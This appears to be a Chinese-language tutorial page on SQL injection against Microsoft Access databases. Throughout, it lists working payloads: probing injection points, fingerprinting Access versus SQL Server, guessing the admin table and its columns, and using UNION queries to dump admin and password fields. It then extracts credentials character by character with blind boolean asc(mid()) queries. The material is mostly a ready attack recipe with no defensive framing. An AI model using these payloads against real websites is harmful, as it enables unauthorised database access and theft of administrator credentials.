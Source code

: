 2. Access数据库`简单`注入原理：
   判断注入点（将这些字符放到诸如点后面观察页面变化，来判断是否带入了数据库进行查询）：

   - And 1=1

   - And 1=2

   - /

   - 0

   - .0

   - .1

3. 判断数据库注入

4. 判断数据类型

   - and exists (select * from msysobjects)>0 如果页面正常返回，则表明数据库类型位Access

   - and exists (select * from sysobjects)>0 如果页面正常返回，则表明数据库类型位sqlserver

5. 判断数据库表

   * and exists (select * from admin)

6. 判断数据库列名

   * and exists (select admin from admin)

7. 判断字段长度

   * order by 20

8. 判断

   - and 1=2 union select 1,2,3,4,5,6,7,8,9 from admin

   - 这里采用联合查询报显位

9. 数据库联合查询（admin、password字段靠猜测才能得到，可以跑字典）

   * and 1=2 union select 1,2,admin,4,password,6,7,8,9 from admin

   > 由于Access数据库特性导致这个SQL注入是需要借助字典去猜解表名和列名的，那么就会出现表名或列名猜解不到，可以自定义社工字典或采用偏移注入！

10. 判断用户密码的长度

    - and (select len(admin) from admin)=5 如果返回正常说明管理员账户的长度为5

    - and (select len(password) from admin)=5 猜解管理密码长度是否为5



猜解管理员账号的第一个数据
通过判断ascii码来判断

```sql
and (select top 1 asc(mid(admin,1,1)) from admin)>100
返回正常说明大于，不正常说明不大于
and (select top 1 asc(mid(admin,1,1)) from admin)>50 返回正常说明大于
and (select top 1 asc(mid(admin,1,1)) from admin)=97 返回正常说明等于97
97对应的字母为a
以此类推
判断管理员账户的第二数据
and (select top 1 asc(mid(admin,2,1)) from admin)>100
返回正常说明大于，不正常说明不大于 第三个
and (select top 1 asc(mid(admin,3,1)) from admin)>100
返回正常说明大于，不正常说明不大于 判断管理员密码的第一个数据
and (select top 1 asc(mid(password,1,1)) from admin)>100
返回正常说明大于，不正常说明不大于
```
